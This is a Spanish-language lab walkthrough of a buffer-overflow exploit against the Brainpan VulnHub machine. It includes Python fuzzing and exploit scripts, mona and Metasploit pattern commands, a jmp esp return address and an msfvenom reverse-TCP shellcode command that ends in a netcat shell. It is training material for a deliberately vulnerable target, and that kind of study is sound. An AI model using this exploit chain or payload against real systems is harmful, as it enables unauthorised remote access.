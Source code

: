 Para explotar un BoF, vamos a estar utilizando la máquina brainpan de la plataforma vulnhub:
[[MAQUINA BRAINPAN (Buffer Overflow)]]
```bash
https://www.vulnhub.com/entry/brainpan-1,51/
```
![[Pasted image 20231201132955.png]]
Hacemos el escaneo con nmap:
![[Pasted image 20231130105922.png]]
Accedemos al contenido del puerto 10000 ya que vemos que corre algo por HTTP:
![[Pasted image 20231130105957.png]]
Realizamos fuzzing web y encontramos el directorio /bin:
![[Pasted image 20231130110024.png]]
Vamos a ejecutar este binario dentro de una máquina windows para analizarlo mejor:
![[Pasted image 20231130110044.png]]
Y vemos que lo que hace es levantar un servicio por el puerto 9999 (puerto que ya estaba abierto en la máquina objetivo). Para ello lo compartimos con una máquina windows 7 para ejecutarlo desde ahí:
![[Pasted image 20231130110205.png]]
![[Pasted image 20231130110250.png]]
Y lo ejecutamos, donde podemos confirmar cómo se levanta un servicio por el puerto 9999:
![[Pasted image 20231130110407.png]]
El siguiente paso será instalar el inmunity debugger en la máquina windows para monitorear el programa, ya que el objetivo es ejecutar el binario para identificar si dispone de alguna vulnerabilidad que permita lanzar un shellcode contra nuestro verdadero target:
![[Pasted image 20231130110510.png]]
Una vez ejecutado el programa y habiéndolo cargado anteriormente, lanzamos un escaneo de nmap contra la máquina windows y vemos que inmunnity debugger lo tiene ejecutado por el mismo puerto:
![[Pasted image 20231130110407.png]]
El siguiente paso será establecer un directorio de trabajo donde vamos a trabajar con el inmunity debugger, por lo que hay que ejecutar el siguiente comando:
```python
!mona config -set workingfolder C:\Users\mario\Desktop\BOF
```
![[Pasted image 20231201102345.png]]
Y también debemos configurar el mona, lo cual será el script que nos permita aplicar filtros y realizar comprobaciones más adelante, por lo que debemos dirigirnos al siguiente repositorio de github:
![[Pasted image 20231201110335.png]]
Nos descargamos el script de mona:
![[Pasted image 20231201110353.png]]
Y lo pegamos dentro de la carpeta de PyCommands del inmunity debugger:
![[Pasted image 20231130155816.png]]
El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = "192.168.0.39"  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```
Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]
Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir:
![[Pasted image 20230906192346.png]]
## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset; y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```
Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]
Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]
Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona:
```python
!mona findmsp -distance 600
```
Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]
Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]
Una vez obtenido el EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]
Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]
Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]
Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]
## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.

------------------------------

Para testearlo, vamos a instalar la librería badchars de python:
![[Pasted image 20230906194513.png]]
Y con este comando generamos las badchars totales:
![[Pasted image 20230906194536.png]]
Y añadimos esto dentro de nuesto script de python en la variable payload:
![[Pasted image 20230906195052.png]]
Y ahora vamos ejecutar el siguiente comando en el Immunity !mona bytearray -b "\x00" para que tenga un archivo con el que comparar el de la aplicación, y si hay algún bad char nos lo llegaría a mostrar:
![[Pasted image 20231201102116.png]]
Y vemos que se nos guarda este reporte en el archivo llamado bytearray (gracias a que al principio del todo hemos establecido el entorno de trabajo):
![[Pasted image 20231201102504.png]]
Reiniciamos el binario en el inmmunity debugger:
![[Pasted image 20231130152020.png]]
Lanzamos nuevamente el exploit y nos fijamos en el número ESP:
![[Pasted image 20231201102609.png]]
![[Pasted image 20231201102638.png]]
Una vez obtenido el número de ESP, ejecutamos el siguiente comando para comprobar la existencia de bad characters:
```python
!mona compare -f C:\Users\mario\Desktop\BOF\bytearray.bin -a 005FF910
```
Y se nos debería abrir esta ventana:
![[Pasted image 20231201103106.png]]
Y no tenemos ningún bad char (a excepción del \x00 que ese siempre es bad char):
![[Pasted image 20231201103134.png]]
Si hubiera algún bad char, habría que quitarlo del exploit:
![[Pasted image 20231201103240.png]]
## POINTER
Ahora tenemos que darle un punto de salto donde ejecutar, con este comando estaríamos buscando las instrucciones de "jmp esp". Por lo que ejecutamos el siguiente comando, con los badchars que nos haya aparecido anteriormente (en nuestro caso cómo mínimo es el x00 ya que este número siempre es un bad char):
```python
!mona jmp -r esp -cpb "\x00"
```
Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]
Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]
Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]
Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]
Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]
## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]
Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]
Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés:
```python
retn= "\xf3\x12\x17\x31"

padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]
Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]
Lo ejecutamos:
![[Pasted image 20231201105126.png]]
Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]
